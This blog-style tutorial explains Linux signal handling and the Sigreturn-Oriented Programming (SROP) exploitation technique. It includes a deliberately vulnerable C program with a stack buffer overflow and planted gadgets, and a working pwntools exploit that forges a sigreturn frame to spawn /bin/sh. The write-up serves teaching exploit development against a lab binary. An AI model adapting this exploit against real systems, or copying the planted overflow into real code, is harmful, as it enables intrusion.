 ```yaml
---
layout: post
title:  "Sig-Return Oriented Programming Attack (SROP)"
---
```


This post covers yet another Binary Exploitation attack that is somewhat similar to return-oriented-programming (ROP) to understand how this works, we first need to understand Linux signals. 

### Linux Signals

Each signal has a current disposition that is used to determine 
how a process behaves when it is delivered a signal. The following
is used to specify the default disposition for each signal.

```
- Term : The default action is to terminate the process
- Ign: The default action is to ignore the process	
	
- Core: This is used to ignore the process and dump core
	(core dump file): Some of the signals, their default actions is 
	to terminate and produce a core dump file. This is a file that contains 
	an image of the process memory at the time of termination. This image
	can be used in a debugger to inspect the state of the program at the time 
	that it was terminated. 

- Stop: This is used to stop the process	
- Cont: This is used to continue the process if it is currently stopped
```

A process can therefore change the disposition of a signal using `sigaction()` and 
`signal()`. A signal handler is a user-defined function that is executed when 
a signal occurs and its stack frame is created on the current processes' stack. It is also possible 
to make the signal handler use an alternate stack using the `sigalstack()` syscall 
as described in its man page.


The following are some of the actions that take place during the execution 
of sighandlers _(user defined functions)_. When there is a transition from kernel-mode to user-mode execution _(eg.
return from a syscall)_, the kernel checks if there is a pending 
unblocked signal for which the process has established a signal handler.

If there is a pending signal, the following takes place:

> _(between the time when a signal is generated and when a signal is delivered
	this is where we say that this is a pending signal)._

- [x] The kernel performs the necessary preparatory steps for the 
	execution of the signal handler.

- [x] The signal is remove from the pending signals.

- [x] If the signal was installed via `sigaction()` and the flag `SA_ONSTACK` was set, 
      and an alternate stack is defined using `sigaltstack()` a new stack for the signal 
is then installed in the specified memory region.

- [x] Otherwise, the kernel will construct a frame for the sighandler on our current 
stack and will set the program counter `rip` for the process to 
point to the first instruction of the sighandler function and 
configures the return address for that function to point 
to a piece of user-space code that is called the `signal trampoline`
	
>_This is code that is used to transfer control from the kernel 
back to user mode when a signal that had a handler installed is sent 
to a process (signal trampoline)._

	
- [x] The kernel now passes control back to the user-space and this is 
where execution will start and the sighandler will be called and its code
block executed.
	
- [x] When the signal handler returns, it passes control back to the signal 
trampoline code and this now calls `sigreturn()` a syscall that uses the 
information in the stack frame that was created by the kernel in `(step 1)` to restore
the process back to how it was before the sighandler was called.
	
When `sigreturn()` compeletes, the kernel then transfers control back to the 
userspace and the process now recommenses its execution back to 
the point where it was interrupted by the signal handler.


The following is a quick `c` snippet that is used to showcase how this works. We 
are going to use a signal disposition that will continue after execution. 


```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>

void sighandler(int signum){
	puts("This will be called when the sighandler executes");
}

int main(int argc, char **argv){
	struct sigaction act;
	act.sa_handler = &sighandler;
		
	sigaction(SIGCONT, &act, NULL);
	kill(getpid(), SIGCONT);
	
	puts("I will be printed after execution");
	return 0;
}

```

Compiling and running the program, we can view the syscalls during execution using the 
`strace` command, and from below before the `puts()` function is called we can see 
`rt_sigreturn` syscall that returns the function back to where it commenced resulting
to the output `I will be printed after execution`

Using `gdb` you can also set a breakpoint at `ret` opcode of the sighandler function and 
examine the return address. If this was a normal function, the return address would
we a function address, lets say an address somewhere at `main()` but this is a stack 
address, showing evidence that the function returned to a `signal trampoline`.

### Exploitation 

From what we have learned we can therefore use this to our advantage. This attack will 
work by putting a forged `sigcontext struct` on the stack. This is a data structure that is 
initiated by the kernel, when a sighandler is executed and it contains these 
registers, pointers, flags etc.. used for restoration. After creating the forged `sigcontext structure`, we 
overwrite the return address with the location of our syscall gadget `rt_sigreturn()`.

After execution, the process will try to go back to its intial state trusting 
the values from the sigcontext, restoring them and giving us control of the program
(instruction and stack pointer).

The following are some of the conditions for an SROP attack:

- [x] A buffer overlow vulnerablilty, to control the instruction pointer.
- [x] Enough stack space to place `sigcontext struct` that is 128 bytes.
- [x] A syscall gadget to execute `rt_sigreturn` syscall.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

const char *binsh = "/bin/sh"; 

// gcc -o srop srop.c -no-pie -fno-stack-protector (compile flags)

void syscall_function(){
	__asm__("syscall; ret"); // syscall gadget
}

void set_rax(){
	__asm__("movl $0xf, %eax; ret;");
}

int main(void){	
	char buffer[16];
	read(0, buffer, 500); // buffer overflow
	return 0;
}
```

From the above snippet we see that the binary meets all the conditions 
that are required for an srop attack. Its now time for exploitation. We will 
be using a simple python script for this.

1. First we need to locate our `syscall ret` gadget and `mov eax, 0xf` gadget.

```bash
ropper --file srop --search "syscall; ret" && ropper --file srop --search "mov eax, 0xf; ret"
```

2. Second we find our offset located at `24` and using a simple 
python script we write our payload. Python `pwntools` comes coupled with 
a `sigreturnFrame()` that is used to model out `sigcontext struct`.

```python
#! /usr/bin/python3

from pwn import *

filename = "./srop"

io = process(filename)
elf = ELF(filename)
context.clear(arch="amd64")

syscall_ret = 0x401126
mov_eax = 0x401130
binsh = 0x00402004

def exploit():
        payload = b"A"*24 # fill the buffer to saved RIP
        payload += p64(mov_eax)
        payload += p64(syscall_ret) # call rt_sigreturn()

        #construct sigcontext frame and control the values of out registers
        frame = SigreturnFrame(kernel="amd64")
        frame.rax = constants.SYS_execve # set rax to execve syscall
        frame.rdi = binsh # set rdi to /bin/sh
        frame.rip = syscall_ret

        payload += bytes(frame)
        return payload
 
def main():
        io.sendline(exploit())
        io.interactive()

if __name__ == "__main__":
        main()


```

From the above exploit we get a full bash shell. There are more complex ways
to chain `srop` attack but this all depends with your creativity.

### References

- [x] https://amriunix.com/post/sigreturn-oriented-programming-srop/

